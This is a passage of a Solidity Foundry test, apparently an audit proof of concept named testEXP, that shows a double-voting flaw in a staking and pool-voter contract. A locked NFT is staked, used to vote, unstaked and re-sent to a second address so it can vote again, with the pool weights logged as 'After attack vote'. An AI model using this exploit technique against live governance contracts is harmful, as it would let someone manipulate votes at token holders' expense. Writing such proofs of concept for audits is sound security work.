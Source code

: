 ```
    }

    function testEXP() public {

        address owner = 0xf39Fd6e51aad88F6F4ce6aB8827279cffFb92266;
        deal(address(stake), address(owner), 1 ether);
        vm.startPrank(owner);
        poolVoter.registerGauge(address(1), address(11111));


        poolVoter.registerGauge(address(3), address(22222));

        address[] memory pools = new address[](3);
        uint256[] memory weights = new uint256[](3);
        pools[0] = address(1);
        pools[1] = address(3);
        weights[0] = 5;
        weights[1] = 5;
        poolVoter.vote(pools, weights);
        vm.stopPrank();
        address[] memory p= poolVoter.pools();
        console.log('Before:');
        
        for (uint i = 0; i < 3; i++) {
            console.log('Pool', i);
            console.log(poolVoter.weights(p[i]));            
        }

        deal(address(zero), address(this), 1 ether);
        zero.approve(address(lockerToken), 1 ether);
        uint256 nftid = lockerToken.createLock(1 ether, 365 * 86400, false);
        lockerToken.safeTransferFrom(address(this), address(stake), nftid, abi.encode(address(this)));

        address[] memory pools2 = new address[](3);
        uint256[] memory weights2 = new uint256[](3);
        pools2[0] = p[0];
        weights2[0] = 5;
        console.log('After attack vote:');
        poolVoter.vote(pools2, weights2);
        for (uint i = 0; i < 3; i++) {
            console.log('Pool', i);
            console.log(poolVoter.weights(p[i]));            
        }
        stake.unstakeToken(nftid);
        console.log('Transfer nft to hack2(0xdeadbeef)');
        lockerToken.safeTransferFrom(address(this), address(stake), nftid, abi.encode(address(0xdeadbeef)));

        vm.startPrank(address(0xdeadbeef));
        poolVoter.vote(pools2, weights2);
        for (uint i = 0; i < 3; i++) {
            console.log('Pool', i);
            console.log(poolVoter.weights(p[i]));            
        }
    }

    function onERC721Received(
        address,
        address from,
        uint256 tokenId,
        bytes calldata data
    ) external returns (bytes4) {
```